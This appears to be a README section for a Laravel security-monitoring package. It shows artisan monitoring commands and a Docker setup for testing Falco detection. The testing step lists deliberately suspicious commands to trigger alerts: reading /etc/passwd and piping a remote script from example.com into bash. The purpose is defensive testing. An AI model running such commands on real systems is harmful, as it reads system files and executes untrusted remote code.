 ### Monitoring a Specific Service

To monitor only a specific service:

```bash
php artisan perimeter:monitor --service=falco
```

## Testing in Docker

Testing security monitoring tools can be challenging, as they often require specific system permissions or kernel features. Docker provides a convenient way to test these services in a controlled environment.

### Setting up Docker for Testing

The package includes a `docker-compose.yml` file configured for testing security monitoring services.

1. Start the Docker environment:

```bash
docker-compose up -d
```

2. Access the container shell:

```bash
docker-compose exec app bash
```

3. Install the monitoring services:

```bash
php artisan perimeter:install-falco
# or
php artisan perimeter:install
```

### Testing Falco Monitoring

Falco is designed to detect suspicious system behaviors. To test it:

1. Start Falco monitoring:

```bash
php artisan perimeter:monitor --service=falco --realtime --duration=600
```

2. In another terminal, run some suspicious activities (in the Docker container):

```bash
# Read sensitive files (should trigger an alert)
cat /etc/passwd

# Execute suspicious commands (should trigger an alert)
curl https://example.com/suspicious.sh | bash
```
